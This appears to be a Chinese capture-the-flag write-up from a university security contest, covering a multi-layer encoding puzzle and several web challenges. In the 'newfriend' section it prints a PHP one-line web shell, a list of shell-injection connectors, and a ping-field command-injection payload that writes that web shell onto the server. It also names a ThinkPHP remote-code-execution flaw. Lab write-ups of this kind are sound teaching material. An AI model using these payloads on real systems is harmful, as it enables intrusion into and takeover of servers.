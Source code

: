 # 2023-04-09 WP

> 山大 山科网络安全大赛

__0x00 Web签到__

e...  一共没做几个题，还全是签到，至于我是怎么知道的，开心消消乐玩多了，玩通关了。。

__0x01 Misc签到__

这个一串神秘字符看上去就像Base16编码后的内容，然后有四个神秘数字：16，32，13，64  就可以猜测分别是Base16，Base32，Rot13，Base64然后依次解码就好。

__0x02 结束__

第一次参加线下赛，一共就做了俩题，这次就主打一个陪跑了（doge）,也写不出有建设性的wp(bei)

__0x03 问题__

关于两个有所进展但没有结果的题，在结束后有了结果（bei）：

* [Web] newfriend

> 已经知道了无法传统的方法上传一句话木马，然后传完与蚁剑完成了连接，看到了flag文件，最后就差在了权限不够

1. 开始想建立一个木马文件pass.php

```
<?php @eval($_POST['pass']);?>
````

然后把他文件名改成png，先传入再通过burpsuite抓包，将后缀名修改之后再返回，但是试了php,phtml,php5都不行，就放弃了。

2. 看见下面有可以ping的地方,命令注入的界面能执行ping命令，能执行ping命令就说明能执行系统命令

> 常见的shell注入命令及连接符

```
Ipconfig 查看本地网络

Net user 查看系统用户

Dir 查看当前目录

Find 查找包含指定字符的行

Whoami 查看系统当前有效用户名

A&B 简单的拼接，AB之间无制约关系

A&&B A执行成功才会执行B

A|B A的输出作为B的输入

A||B A执行失败，然后才会执行B
```

先来尝试一下：127.0.0.1&whoami ---得到回显，可以进行系统命令

2. echo一个一句话木马回目标网站

```
127.0.0.1&echo "<?php @eval(\$_POST['test']);?>" > 2333.php
```

> 不知道需不需要base64编码，我没有编。

这个时候再看ls就会发现2333.php已经在目录里了

3. 与蚁剑连接，http:xxx:xxx/2333.php  test

打开虚拟终端，在根目录下发现flag文件，直接cat flag 得到TKHASH{h1ll0_m1_new_fr1ends}

> 说是有权限限制为啥没遇到，但是在比赛中我确实遇到了禁止访问flag权限不够，尝试了su,sudo,chmod等等直接搞崩了连接还是不行，结果结束比赛步骤都一样就又行了？





* [Web] think

> 已知问题出现于thinkphp的多语言漏洞，却无法与蚁剑最后实现连接。

果然考察的是活学活用，thinkphp v6.0.12的多语言rce漏洞，很新啊，得先学

可以参考[借鉴](https://blog.vvbbnn00.cn/archives/realworldctf2023-ti-yan-sai-bu-fen-ti-jie)

* [Web] y1's Blog

关于最新的cve漏洞，考察2023REALWORLD比赛中一题


> 先这样
